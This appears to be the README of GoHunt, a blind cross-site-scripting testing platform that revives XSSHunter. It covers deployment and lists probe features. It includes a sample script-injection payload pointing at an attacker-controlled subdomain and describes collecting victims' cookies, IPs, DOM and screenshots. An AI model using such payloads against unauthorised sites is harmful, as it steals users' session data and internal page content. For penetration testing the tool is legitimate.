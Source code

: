 # GoHunt

A revival of [XSSHunter](https://github.com/mandatoryprogrammer/xsshunter), `GoHunt` brings all your favorite `XSSHunter` functionality. Plus quality of life improvements!

![image](https://github.com/user-attachments/assets/310053ad-0d92-42bc-ae72-fa439e567373)

![image](https://github.com/user-attachments/assets/3dd8a917-b313-4c34-929d-4df67c648c31)

![image](https://github.com/user-attachments/assets/d2a48ad0-cf17-48a6-a58b-055432efcb8c)

![image](https://github.com/user-attachments/assets/14bd78dd-9938-43ef-919a-0c1b87e5241c)


Main changes:
- Single golang binary or docker deployment
- Additional notification methods 
- Bulk deletion/editing 
- Single Sign on


## Requirements
* A domain name
* Docker/Podman
* Ability to set DNS records

## Setup

Set a wildcard DNS record to your GoHunt instance
```sh
example.com A <YOUR INSTANCE IP>
*.example.com CNAME example.com
```

Create an `.env` file, you can use the `.env.dev` as a template.
```sh
DOMAIN=localhost:8081
GOHUNT_USERNAME=test
DB_PASSWORD=averystrongpassword
#GOHUNT_PASSWORD=yourstrongpasswordhere (optional)
```

Remember to set your `DOMAIN`!

Start the `docker-compose.yaml`:
```sh
docker compose -f docker-compose.yaml up -d
```

Thats it!


## Summary of Functionality
*Upon signing up you will create a subdomain such as `yoursubdomain.example.com` which identifies your XSS vulnerabilities and hosts your payload. You then use this subdomain in your XSS testing, using injection attempts such as `"><script src=//yoursubdomain.example.com></script>`. GoHunt will automatically serve up XSS probes and collect the resulting information when they fire.*

## Features
* **Single Sign-on** GoHunt supports OIDC for logging in to your service
* **User Management** Admin users can update and edit user records
* **Managed XSS payload fires**: Manage all of your XSS payloads in your GoHunt account's control panel, including bulk deleting
* **Powerful XSS Probes**: The following information is collected everytime a probe fires on a vulnerable page:
    * The vulnerable page's URI 
    * Origin of Execution 
    * The Victim's IP Address 
    * The Page Referer 
    * The Victim's User Agent 
    * All Non-HTTP-Only Cookies 
    * The Page's Full HTML DOM 
    * Full Screenshot of the Affected Page 
    * Responsible HTTP Request (If an GoHunt compatible tool is used) 
* **Full Page Screenshots**: GoHunt probes utilize the HTML5 canvas API to generate a full screenshot of the vulnerable page which an XSS payload has fired on. With this feature you can peak into internal administrative panels, support desks, logging systems, and other internal web apps. This allows for more powerful reports that show the full impact of the vulnerability to your client or bug bounty program.
* **XSS Payloads Fire Notifications**: XSS payload fires also send out **webhooks** or **email** notifications, your choice!
* **Automatic Payload Generation**: GoHunt automatically generates XSS payloads for you to use in your web application security testing.
* **Correlated Injections**: Perhaps the most powerful feature of GoHunt is the ability to correlated injection attempts with XSS payload fires. By using an [GoHunt/XSSHunter compatible testing tool](https://github.com/mandatoryprogrammer/xsshunter_client) you can know immediately what caused a specific payload to fire (even weeks after the injection attempt was made!).
* **Option PGP Encryption for Payload Emails**: Extra paranoid? Client-side PGP encryption is available which will encrypt all injection data in the victim's browser before sending it off to the GoHunt service.
* **Page Grabbing**: Upon your XSS payload firing you can specify a list of relative paths for the payload to automatically retrieve and store. This is useful in finding other vulnerabilities such as bad `crossdomain.xml` policies on internal systems which normally couldn't be accessed.
* **Secondary Payload Loading**: Got a secondary payload that you want to load after GoHunt has done it's thing? GoHunt offers you the option to specify a secondary JavaScript payload to run after it's completed it's collection.
* **Confidential Mode**: Dont want to send any details with your notifications? To be safe, this option only means you get notification and no details to your **slack**, **discord**, or email inbox
